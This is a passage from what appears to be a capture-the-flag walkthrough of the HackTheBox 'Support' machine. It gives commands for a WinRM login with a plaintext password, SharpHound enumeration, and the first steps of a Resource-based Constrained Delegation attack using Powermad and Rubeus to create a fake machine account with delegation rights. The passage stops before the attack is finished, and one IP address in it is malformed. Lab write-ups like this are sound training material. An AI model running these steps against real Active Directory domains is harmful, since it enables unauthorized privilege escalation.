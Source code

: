 We can use this password to winrm in there as support and run some SharpHound
```bash
evil-winrm -i dc.support.htb -u support -p 'Ironside47pleasure40Watchful'
upload /home/user/Tools/SharpHound/SharpHound.exe sh.exe
```

```bash
sh.exe -c all -d support.htb -DomainController 127.0.0.0.1
download 20220910154816_BloodHound.zip
```

And after looking at this data in bloodhound we can see that support has “GenericAll” permission over the AD-Object “dc.support.htb”, so we can do a Resource-based Constrained Delegation Kerberos attack.



## Privesc "GenericAll" -> Resource-based Constrained Delegation Kerberos attack 

[https://cybergladius.com/htb-walkthrough-support](https://cybergladius.com/htb-walkthrough-support)

On the DC we'll be using powermad to add a user, then built in AD tools to give it Constrained Delegation Priviledges, Rubeus to generate hashes for the account. 

Then from our own system we'll use impacket to leverage the fake user and request a TGT as the Administrator user.

```bash
git clone https://github.com/Kevin-Robertson/Powermad.git
git clone https://github.com/GhostPack/Rubeus.git
```

Upload the tools on the DC over winrm
```bash
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe
```

Set variables
```bash
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"
```

Add the new fake computer object to AD with powermad
```bash
Import-Module ./pm.ps1

New-MachineAccount \
    -MachineAccount (Get-Variable -Name "FakePC").Value \
    -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) \
    -Verbose
```

With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
```bash
Set-ADComputer (Get-Variable -Name "targetComputer").Value \
    -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
```
